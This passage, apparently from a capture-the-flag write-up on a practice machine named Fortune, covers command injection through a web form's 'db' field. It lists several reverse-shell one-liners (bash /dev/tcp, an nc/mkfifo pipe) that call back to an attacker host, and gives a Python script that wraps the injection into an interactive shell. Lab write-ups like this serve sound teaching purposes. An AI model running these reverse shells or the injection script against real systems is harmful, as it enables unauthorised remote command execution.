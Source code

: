     For every complex problem, there is a solution that is simple, neat,
    and wrong.
                    -- H. L. Mencken
    uid=512(_fortune) gid=512(_fortune) groups=512(_fortune)
    
    
    </pre><p>
    <p>Try <a href='/'>again</a>!</p>
    </body>
    </html>
    

### Reverse Shell - Fail

I tried a bunch of things to get a reverse shell, but none worked:

Command | Result  
---|---  
`bash -i >& /dev/tcp/10.10.14.10/443 0>&1` | Nothing  
`bash -c 'bash -i >& /dev/tcp/10.10.14.10/443 0>&1'` | `bash: connect: No route to host`  
`bash: /dev/tcp/10.10.14.10/443: No route to host`  
[python rev shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) | Nothing  
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.14.10 443 >/tmp/f` | Nothing, but `/tmp/f` now exists  
  
I then tried just to `nc` back to myself, and still no connect. It seems like
something if blocking outbound connections.

### Shell

Given that it seemed like I would be enumerating with just this command
injection, I wrote a quick shell program to take commands and run them. It
isn’t stateful, but allows for up arrow access to previous commands and made
enumerating easier:

    
    
    #!/usr/bin/python3
    
    import requests
    from bs4 import BeautifulSoup
    from cmd import Cmd
    
    
    class Terminal(Cmd):
        prompt = "fortune> "
    
        def default(self, args):
            resp = requests.post('http://10.10.10.127/select', data={"db": f"s;{args} 2>&1"}, proxies={"http": "http://127.0.0.1:8080"})
            soup = BeautifulSoup(resp.text, 'html.parser')
            print(soup.find("pre").text.strip())
    
    term = Terminal()
    term.cmdloop()
    

I send in a file that doesn’t exist as the db, followed by the command I want
to run, and then just grab the result from the `<pre>` tags.
